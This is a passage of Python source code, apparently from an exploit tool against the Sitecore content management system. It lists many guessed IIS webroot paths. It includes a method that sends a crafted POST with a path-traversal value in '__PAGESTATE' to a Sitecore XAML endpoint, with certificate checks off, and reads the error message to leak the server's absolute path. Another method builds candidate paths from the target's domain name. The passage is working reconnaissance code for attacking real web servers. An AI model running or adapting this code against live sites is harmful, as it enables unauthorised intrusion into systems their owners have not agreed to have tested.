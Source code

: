 ```
            r"C:\\inetpub\\wwwroot\\Sitecore81u2\\",
            r"C:\\inetpub\\wwwroot\\Sitecore7\\",
            r"C:\\inetpub\\wwwroot\\Sitecore8\\",
            r"C:\\inetpub\\wwwroot\\Sitecore70\\",
            r"C:\\inetpub\\wwwroot\\Sitecore71\\",
            r"C:\\inetpub\\wwwroot\\Sitecore72\\",
            r"C:\\inetpub\\wwwroot\\Sitecore75\\",
            r"C:\\Websites\\spe.dev.local\\",
            r"C:\\inetpub\\wwwroot\\SitecoreInstance\\",
            r"C:\\inetpub\\wwwroot\\SitecoreSPE_8\\",
            r"C:\\inetpub\\wwwroot\\SitecoreSPE_91\\",
            r"C:\\inetpub\\wwwroot\\Sitecore9\\",
            r"C:\\inetpub\\wwwroot\\sitecore93sc.dev.local\\",
            r"C:\\inetpub\\wwwroot\\Sitecore81u3\\",
            r"C:\\inetpub\\wwwroot\\sitecore9.sc\\",
            r"C:\\inetpub\\wwwroot\\sitecore901xp0.sc\\",
            r"C:\\inetpub\\wwwroot\\sitecore9-website\\",
            r"C:\\inetpub\\wwwroot\\sitecore93.sc\\",
            r"C:\\inetpub\\wwwroot\\SitecoreSite\\",
            r"C:\\inetpub\\wwwroot\\sc82\\",
            r"C:\\inetpub\\wwwroot\\SX93sc.dev.local\\",
            r"C:\\inetpub\\SITECORE.sc\\",
            r"C:\\inetpub\\wwwroot\\"
        ]
        
    def attempt_absolute_path_leak(self, base_url: str) -> Optional[str]:
        """Attempt to discover absolute path through POST request."""
        path_discovery_endpoint = f"{base_url}/-/xaml/Sitecore.Shell.Applications.ContentEditor.Dialogs.EditHtml.ValidateXHtml?hdl=a"
        headers = {
            "Accept": "*/*",
            "Accept-Encoding": "gzip, deflate, br",
            "Accept-Language": "en-US;q=0.9,en;q=0.8",
            "User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/129.0.6668.71 Safari/537.36",
            "Connection": "close",
            "Cache-Control": "max-age=0",
            "Content-Type": "application/x-www-form-urlencoded"
        }
        data = "__PAGESTATE=/../../x/x"
        try:
            response = requests.post(path_discovery_endpoint, headers=headers, data=data, verify=False, timeout=5)
            if response.status_code == 500:
                match = re.search(r"Could not find a part of the path '([^']+)'", response.text)
                if match:
                    absolute_path = match.group(1)
                    print(f"[+] Discovered absolute path for {base_url}: {absolute_path}")
                    return absolute_path
        except requests.RequestException:
            pass
        return None
    def generate_dynamic_paths(self, base_url: str) -> List[str]:
        """Generate dynamic paths based on URL components."""
        extracted = tldextract.extract(base_url)
        subdomain = extracted.subdomain
        domain = extracted.domain
        suffix = extracted.suffix
        fqdn = f"{subdomain}.{domain}.{suffix}".strip(".")
        
        return [
            fr"C:\\inetpub\\{domain}.sc\\",
            fr"C:\\inetpub\\{fqdn}.sc\\",
```